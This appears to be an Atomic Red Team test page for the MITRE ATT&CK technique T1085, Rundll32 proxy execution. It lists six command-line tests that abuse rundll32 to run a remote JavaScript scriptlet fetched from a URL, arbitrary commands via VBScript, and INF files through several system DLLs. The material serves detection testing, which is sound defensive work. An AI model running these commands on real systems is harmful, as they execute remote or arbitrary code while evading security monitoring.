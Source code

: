 # T1085 - Rundll32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1085)
<blockquote>The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 advpack.dll Execution](#atomic-test-3---rundll32-advpackdll-execution)

- [Atomic Test #4 - Rundll32 ieadvpack.dll Execution](#atomic-test-4---rundll32-ieadvpackdll-execution)

- [Atomic Test #5 - Rundll32 syssetup.dll Execution](#atomic-test-5---rundll32-syssetupdll-execution)

- [Atomic Test #6 - Rundll32 setupapi.dll Execution](#atomic-test-6---rundll32-setupapidll-execution)


<br/>

## Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject
Test execution of a remote script using rundll32.exe

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/src/T1085.sct|

#### Run it with `command_prompt`! 
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```



<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.

Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|

#### Run it with `command_prompt`! 
```
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```



<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```



<br/>
<br/>

## Atomic Test #4 - Rundll32 ieadvpack.dll Execution
Test execution of a command using rundll32.exe with ieadvpack.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```



<br/>
<br/>

## Atomic Test #5 - Rundll32 syssetup.dll Execution
Test execution of a command using rundll32.exe with syssetup.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Syssetup.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe syssetup.dll,SetupInfObjectInstallAction DefaultInstall 128 .\#{inf_to_execute}
```



<br/>
<br/>

## Atomic Test #6 - Rundll32 setupapi.dll Execution
Test execution of a command using rundll32.exe with setupapi.dll.

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Setupapi.yml

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder\T1085\src\T1085_DefaultInstall.inf|

#### Run it with `command_prompt`! 
```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 .\#{inf_to_execute}
```



<br/>
